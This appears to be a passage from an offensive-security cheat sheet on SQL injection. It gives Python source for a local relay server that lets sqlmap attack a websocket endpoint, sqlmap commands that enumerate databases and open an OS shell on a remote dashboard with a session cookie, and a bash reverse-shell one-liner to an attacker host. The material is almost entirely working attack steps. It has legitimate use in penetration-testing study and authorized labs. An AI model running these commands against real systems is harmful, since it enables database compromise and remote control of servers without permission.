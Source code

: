 ```console
def middleware_server(host_port,content_type="text/plain"):

  class CustomHandler(SimpleHTTPRequestHandler):
    def do_GET(self) -> None:
      self.send_response(200)
      try:
        payload = urlparse(self.path).query.split('=',1)[1]
      except IndexError:
        payload = False
        
      if payload:
        content = send_ws(payload)
      else:
        content = 'No parameters specified!'

      self.send_header("Content-type", content_type)
      self.end_headers()
      self.wfile.write(content.encode())
      return

  class _TCPServer(TCPServer):
    allow_reuse_address = True

  httpd = _TCPServer(host_port, CustomHandler)
  httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
  middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
  pass
```

#### Execution

```console
$ sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

### Getting Shell

```console
$ sqlmap -u 'http://<RHOST>/dashboard.php?search=a' --cookie="PHPSESSID=c35v0sipg7q8cnpiqpeqj42hhq" --os-shell
```

### Getting Reverse Shell

```console
$ os-shell> bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
```
